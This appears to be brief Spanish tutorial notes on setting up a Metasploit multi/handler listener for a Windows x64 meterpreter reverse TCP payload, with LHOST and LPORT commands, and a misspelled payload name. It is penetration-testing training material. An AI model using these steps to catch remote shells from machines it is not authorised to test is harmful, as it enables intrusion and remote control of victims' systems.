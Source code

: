 
Si es la primera vez que la arrancas, lo arrncas así
```
msfdb run
```
ponemos un listener
```
use exploit/multi/handler
```
Especificamos el payload
```
.set payload windows/x64/meterprete/revese_tcp
```
Una vezseteado el páyload podemos ver las opciones disponibles
```
show options
```
decirle la dirección IP
``` 
set LHOST 192.168.111.45
```
Y también el puerto 
```
set LPORT 4646
```
Y ponernos en escucha
```
run
```
